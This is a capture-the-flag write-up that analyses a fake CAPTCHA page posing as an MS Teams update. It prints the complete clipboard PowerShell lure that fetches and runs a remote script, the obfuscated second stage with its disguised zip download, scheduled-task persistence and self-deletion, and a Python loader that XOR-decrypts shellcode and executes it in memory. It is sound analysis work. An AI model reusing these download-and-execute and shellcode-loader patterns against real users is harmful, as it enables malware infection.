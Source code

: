 # Verify You Are Human

---

this is a challenge from [huntress](https://ctf.huntress.com) ctf 2025

---

#### Description

> My computer said I needed to update MS Teams, so that is what I have been trying to do...
> ...but I can't seem to get past this CAPTCHA!

#### My solution

You are first greeted by this page:
![screenshot of captcha page](../images/screenshot-20251004-234044.png)

This page leads on to the next when you click to verify the page:
![screenshot of verify page](../images/screenshot-20251004-234358.png)

On this page it says to verify! It copys a command into your clipboard and wants you to exicute it in the windows runner. This is the command:
```
"C:\WINDOWS\system32\WindowsPowerShell\v1.0\PowerShell.exe" -Wi HI -nop -c "$UkvqRHtIr=$env:LocalAppData+'\'+(Get-Random -Minimum 5482 -Maximum 86245)+'.PS1';irm 'http://c8b9d11e.proxy.coursestack.com:443/?tic=1'> $UkvqRHtIr;powershell -Wi HI -ep bypass -f $UkvqRHtIr"
```
I analysed this command, it does the following:
- Create a hidden powershell prompt
- Create a powershell script file in your `%AppData%` directory
- Load the page `http://c8b9d11e.proxy.coursestack.com:443/?tic=1` into said file
- Then exicute that file in another hidden powershell prompt

The link `http://c8b9d11e.proxy.coursestack.com:443/?tic=1` contains the following powershell script:
```
$JGFDGMKNGD = ([char]46)+([char]112)+([char]121)+([char]99);$HMGDSHGSHSHS = [guid]::NewGuid();$OIEOPTRJGS = $env:LocalAppData;irm 'http://c8b9d11e.proxy.coursestack.com:443/?tic=2' -OutFile $OIEOPTRJGS\$HMGDSHGSHSHS.pdf;Add-Type -AssemblyName System.IO.Compression.FileSystem;[System.IO.Compression.ZipFile]::ExtractToDirectory("$OIEOPTRJGS\$HMGDSHGSHSHS.pdf", "$OIEOPTRJGS\$HMGDSHGSHSHS");$PIEVSDDGs = Join-Path $OIEOPTRJGS $HMGDSHGSHSHS;$WQRGSGSD = "$HMGDSHGSHSHS";$RSHSRHSRJSJSGSE = "$PIEVSDDGs\pythonw.exe";$RYGSDFSGSH = "$PIEVSDDGs\cpython-3134.pyc";$ENRYERTRYRNTER = New-ScheduledTaskAction -Execute $RSHSRHSRJSJSGSE -Argument "`"$RYGSDFSGSH`"";$TDRBRTRNREN = (Get-Date).AddSeconds(180);$YRBNETMREMY = New-ScheduledTaskTrigger -Once -At $TDRBRTRNREN;$KRYIYRTEMETN = New-ScheduledTaskPrincipal -UserId "$env:USERNAME" -LogonType Interactive -RunLevel Limited;Register-ScheduledTask -TaskName $WQRGSGSD -Action $ENRYERTRYRNTER -Trigger $YRBNETMREMY -Principal $KRYIYRTEMETN -Force;Set-Location $PIEVSDDGs;$WMVCNDYGDHJ = "cpython-3134" + $JGFDGMKNGD; Rename-Item -Path "cpython-3134" -NewName $WMVCNDYGDHJ; iex ('rundll32 shell32.dll,ShellExec_RunDLL "' + $PIEVSDDGs + '\pythonw" "' + $PIEVSDDGs + '\'+ $WMVCNDYGDHJ + '"');Remove-Item $MyInvocation.MyCommand.Path -Force;Set-Clipboard
```

This looks rather confusing with all the random varible names so I tried to make it a bit neater to see what was happening:
```
$PYC = ([char]46) + ([char]112) + ([char]121) + ([char]99);
$GUILDID = [guid]::NewGuid();
$LOCALAPP = $env:LocalAppData;
irm 'https://c8b9d11e.proxy.coursestack.com:443/?tic=2' -OutFile $LOCALAPP\$GUILDID.pdf;
Add-Type -AssemblyName System.IO.Compression.FileSystem;[System.IO.Compression.ZipFile]::ExtractToDirectory("$LOCALAPP\$GUILDID.pdf", "$LOCALAPP\$GUILDID");
$MAINPATH = Join-Path $LOCALAPP $GUILDID;
$GUILD_ID_STR = "$GUILDID";
$PYTHON = "$MAINPATH\pythonw.exe";
$CPY_D_PYC = "$MAINPATH\cpython-3134.pyc";
$SEDULE_PYTHON = New-ScheduledTaskAction -Execute $PYTHON -Argument "`"$CPY_D_PYC`"";
$SCHEDULED_RUN_TIME = (Get-Date).AddSeconds(180);
$SCHEDULE_TRIGGER = New-ScheduledTaskTrigger -Once -At $SCHEDULED_RUN_TIME;
$SCHEDULE_PINCIPAL = New-ScheduledTaskPrincipal -UserId "$env:USERNAME" -LogonType Interactive -RunLevel Limited;
Register-ScheduledTask -TaskName $GUILD_ID_STR -Action $SEDULE_PYTHON -Trigger $SCHEDULE_TRIGGER -Principal $SCHEDULE_PINCIPAL -Force;
Set-Location $MAINPATH;
$FULL_PYTHON_FILENAME = "cpython-3134" + $PYC;
Rename-Item -Path "cpython-3134" -NewName $FULL_PYTHON_FILENAME;
iex ('rundll32 shell32.dll,ShellExec_RunDLL "' + $MAINPATH + '\pythonw" "' + $MAINPATH + '\' + $FULL_PYTHON_FILENAME + '"');
Remove-Item $MyInvocation.MyCommand.Path -Force;
Set-Clipboard
```

This makes it a bit clearer about what it is doing.
One of the first major things it does is download a "pdf" from `https://c8b9d11e.proxy.coursestack.com:443/?tic=2`.
Looking at what type of file it is I get back: `Zip archive data, at least v2.0 to extract`.
This file is trying to act like a pdf but is clearly a zip file.
This is made clear when the next line in the script extracts the pdf file.
The extracted file has the python.exe aswell as some .pyc files which are python files that contain bytecode.
the only .py file I find is a file named `output.py`:
```py
import base64
#nfenru9en9vnebvnerbneubneubn
exec(base64.b64decode("aW1wb3J0IG ... cHRyKQpmbigp").decode('utf-8'))
#g0emgoemboemoetmboemomeio
```
It has a bit long base64 string that gets decoded and executed as more python.
the string after being decode is the following python script:
```py
import ctypes

def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr), buf, ctypes.c_int(len(shellcode)))
functype = ctypes.CFUNCTYPE(ctypes.c_void_p)
fn = functype(ptr)
fn()
```

This contins even more base64 and an xor decrypter.
I modified this file to print out the shell code and write it to a binary file:
```
import base64
import codecs

def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))
print(shellcode)
data = codecs.decode(shellcode, "unicode_escape").encode("latin-1")
out_path = "decoded.bin"
with open(out_path, "wb") as f:
    f.write(data)

```
Output:
```
bytearray(b'U\x89\xe5\x81\xec\x80\x00\x00\x00h\x93\xd8\x84\x84h\x90\xc3\xc6\x97h\xc3\x90\x93\x92h\x90\xc4\xc3\xc7h\x9c\x93\x9c\x93h\xc0\x9c\xc6\xc6h\x97\xc6\x9c\x93h\x94\xc7\x9d\xc1h\xde\xc1\x96\x91h\xc3\xc9\xc4\xc2\xb9\n\x00\x00\x00\x89\xe7\x817\xa5\xa5\xa5\xa5\x83\xc7\x04Iu\xf4\xc6D$&\x00\xc6\x85\x7f\xff\xff\xff\x00\x89\xe6\x8d}\x80\xb9&\x00\x00\x00\x8a\x06\x88\x07FGIu\xf7\xc6\x07\x00\x8d<$\xb9@\x00\x00\x00\xb0\x01\x88\x07GIu\xfa\xc9\xc3')
```

Next I opened this binary file in IDA to decompile the file and see what the program wanted to do.
![IDA program with binary file open](../images/screenshot-20251005-000637.png)
This assembly code shows date being pushed onto a stack and then xor'ed to decompile the data.
I copyed the data and the xor value and made a script to decrypt it:
```py
data = [
    0x8484D893,
    0x97C6C390,
    0x929390C3,
    0xC7C3C490,
    0x939C939C,
    0xC6C69CC0,
    0x939CC697,
    0xC19DC794,
    0x9196C1DE,
    0xC2C4C9C3
]

xor = 0x0A5A5A5A5
decoded_str = ""

for w in data:
    decoded_str = ((w ^ xor).to_bytes(4, 'little')).decode("utf-8") + decoded_str

print(decoded_str)
```

This then gave me the correct flag!: `flag{d34 ... c26}`

